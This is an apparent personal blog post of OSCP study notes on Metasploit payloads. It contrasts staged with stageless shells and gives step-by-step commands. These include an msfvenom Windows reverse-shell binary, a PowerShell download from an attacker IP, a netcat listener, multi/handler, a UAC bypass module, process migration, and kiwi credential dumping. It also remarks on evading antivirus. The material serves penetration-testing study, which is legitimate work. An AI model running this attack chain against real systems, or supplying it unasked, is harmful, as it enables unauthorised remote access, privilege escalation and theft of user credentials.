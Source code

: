 ```yaml
---
layout: post
title: Metsploit Payloads
titledate: 09/25/23
tags: ["infosec", "offsec", "metasploit"]
---
```


#### staged vs stageless

- stageless a non-staged or stageless payload is sent with the shellcode along with the exploit it is considered an all in one exploit and is typically more stable, however, it is larger in size

- staged a staged payload is sent in parts where the first part is meant to establish the connection to the attacker and then in the second part the rest of the shellcode is sent to the target - a staged payload is not only smaller in size, but the 2nd part of shellcode that is retrieved is loaded into memory and may more easily escape detection by AV

to view compatible payloads for a chosen exploit

    msf> show payloads

to identify staged vs stageless in msf, the / character will be used for staged and a payload description will usually identify the payload for example

    payload/linux/x64/shell/reverse_tcp 
        Reverse TCP Stager
    payload/linux/x64/shell_reverse_tcp  
        Reverse TCP Inline

#### meterpreter

meterpreter is a msf payload that resides in memory and can be especially useful in post exploitation

all meterpreter payloads are staged , but the payload can be distributed in a stageless manner to the target in which it contains all the components required to launch a meterpreter session

if we select a meterpreter payload

    msf> set payload linux/x64/meterpreter_reverse_tcp

    msf> run

we can get system info, and even an interactive shell

    msf> sysinfo

    msf> shell

we can upload and download files and even use an HTTPS encrypted meterpreter payload to help bypass AV

#### msfvenom

we use msfvenom to create binaries from the msf payload libraries outside of msf

to list available payload options by search

    $ msfvenom -l payloads --platform windows --arch x64

let's create our binary with our payload, lhost lport file format and file output name

    $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe

we can experiment with both staged and non staged to see differences in our results

for the non staged we can use powershell to copy over the msfvenom reverse shell binary to our target

    PS> iwr -uri http://192.168.1.1/nonstaged.exe -Outfile nonstaged.exe

start our netcat listener

    $ nc -nvlp 443

and then execute on our target

    PS> .\nonstaged.exe

then for the staged payload we can not use netcat bc it can not handle staged payloads

#### NOTE: we can only use meterpreter once for OSCP, but we can use a staged listener in the multi/handler

    msf> use multi/handler

    msf> set payload windows/x64/shell/reverse_tcp

this should catch our staged payload

some shell type shortcuts

[msfvenom](https://github.com/lexisrepo/Shells)

#### post exploitation

msf includes many post exploitation features useful ones for us would be hash dumps , getuid, getsystem

we must get privs before migrating process

list with 

    msf> ps

    msf> migrate pid

dump env 

    msf> getenv

#### bypass UAC

if we have a meterpreter session we can enter a shell and attempt to bypass UAC

    msf> shell

    C:> powershell -ep bypass

    PS> Import-Module NtObjectManager

    PS> Get-NtTokenIntegrityLevel

this will show us the integrity level of the process we are executing in

we can ctrl+z to bacground the shell and then hit bg to background the session

    msf> search UAC

this search will show several UAC bypasses we can choose from

    msf > use exploit/windows/local/bypassuac_sdclt

we choose one and then enter the options for the background session we already have

    msf> set SESSION 9

    msf> set lhost 192.168.1.1

    msf> run

now if we enter a shell

    msf> shell

    C:> powershell -ep bypass

    PS> Import-Module NtObjectManager

    PS> Get-NtTokenIntegrityLevel

we can see the integrity level is high so we've bypassed UAC

#### kiwi

kiwi is another meterpreter module that can be loaded but it needs administrator privs

so if we execute a meterpreter session and execute

    msf> getsystem

to elevate our privs, we can then load kiwi

    msf> load kiwi

    msf> help

    msf> creds_msv

this will allow us to dump user creds if we have sufficent privs

